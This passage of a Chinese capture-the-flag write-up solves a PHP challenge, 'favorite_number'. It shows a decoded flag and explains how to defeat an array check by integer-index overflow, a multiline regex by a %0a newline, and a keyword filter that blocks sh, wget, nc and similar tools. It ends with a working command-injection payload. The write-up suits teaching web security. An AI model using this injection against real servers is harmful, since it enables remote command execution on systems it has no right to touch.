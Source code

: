 PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tjMWU1NTJmZGY3NzA0OWZhYmY2NTE2OGYyMmY3YWVhYn0iOw0KZXhpdCgwKTsNCg==
解密后为

flag{c1e552fdf77049fabf65168f22f7aeab}


---


---


---


---


---


---


---


---


## 八、favorite_number

> 

 
<h3>解题方法：</h3>
1、源码分析，绕过过滤，flag寻找方法


> 
<h3>过程：</h3>
进入后就是php代码

代码1：数组
使用$_POST["stuff"]接收数组
并且限制$stuff[0] != 'admin'
可以采用数组下标溢出绕过
stuff[2^32]=admin
<pre><code>$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array &amp;&amp; $stuff[0] != 'admin') { 
    $num= $_POST["num"]; </code></pre>
<hr/>
代码2：正则匹配
"/^\d+$/im"：匹配一串数字，不能有其它字符
/m：多行匹配，有一行匹配成功，preg_match返回true
换行符：0x0a（ascii码），%0a（URL编码）
<pre>` if (preg_match("/^\d+$/im",$num)){ `</pre>
<hr/>
代码3：过滤关键字
<pre>` if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){ `</pre>
<hr/>
1、数组：数字下标溢出绕过
2、正则匹配：%0a多行绕过
3、关键字过滤：可以拼接其他命令&amp;&amp;（ascii码0x26，URL编码%26）
构造payload：
stuff[4294967296]=admin&amp;stuff[1]=user&amp;num=123%0als<br/>  
